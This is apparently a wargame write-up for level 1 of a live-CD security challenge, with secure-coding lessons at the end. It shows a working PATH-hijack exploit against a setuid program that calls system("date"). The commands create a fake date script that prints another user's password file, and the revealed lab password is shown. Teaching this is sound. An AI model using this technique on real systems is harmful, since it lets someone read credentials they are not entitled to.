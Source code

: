 ## Level 1: don't use the system function in C

When the live CD starts,
you are automatically logged in as user `level00`.
The "message of the day" says:

> In /home/level01/.password is the password of the level01 user.
> Your mission, should you choose to accept it, is to read that
> file and login as level01 to advance to the next level.
> You may find the files in /levels/level01 useful.

All the levels on this CD work roughly the same way:

- The password of each `levelXX` user is stored in a file named `.password` in their home directory.

- The user home directories are well protected:
  only their owners have access (`0700` mode)

- The vulnerable programs and their source code are stored in the `/levels/levelXX` directories.

- The explanation of the level is shown when you login,
  it saved in the file `motd.txt` in the user's home directory.

- The explanation of the level always contains a hint to beat the challange, so it's good to read it carefully.

Let's get started!
Taking the hint from the explanation of the level,
look at the files in the `/levels/level01` directory:

```
$ ls -l /levels/level01
total 32
-rw-rw-r--  1 level01  level01    69 Mar  9 19:08 Makefile
-rwsr-xr-x  1 level01  level01  7352 Mar  9 19:08 level01
-rw-rw-r--  1 level01  level01   152 Mar  9 19:08 level01.c
```

Notice the user permission `rws` on the file `level01`.
The setuid bit is set,
so when we run this program,
it will have the access permissions of `level01`,
the owner of the file,
instead of our current user.
Let's run it to see what it does:
```
$ /levels/level01/level01
Current time: Tue Sep  3 23:55:54 UTC 2013
```

It simply prints the current date and time.
Let's see how this is implemented in the source code:
```
printf("Current time: ");
fflush(stdout);
system("date");
return 0;
```

Instead of using a native C function to get the date,
the program calls the `system` function to run the `date` command.
We can find how `system` works in `man system`:
it executes the given string by calling `/bin/sh -c`.

Consider how the shell executes a command that is not an absolute path:
for each directory defined in `PATH`,
it checks if there is an executable file,
and it runs the first match.
We can easily exploit this by creating our own script named `date`,
prepend its base directory to `PATH`,
and make it print `/home/level01/.password`.
Here we go:

```
$ echo '#!/bin/cat /home/level01/.password' > /tmp/date
$ chmod +x /tmp/date 
$ PATH=/tmp /levels/level01/level01
Current time: aepeefoo
#!/bin/cat /home/level01/.password
```

Bingo! Now we can login as `level01` using the revealed password.

### Lessons to learn

- Read well the documentation, especially the warnings about usage:
  `man system` warns that it should not be used in setuid programs.

- Don't use the `system` function.
  Or if you must, at least use it only with absolute paths.

- Beware of environment variables that users can manipulate to alter the behavior of your programs.

- Beware of setuid programs.

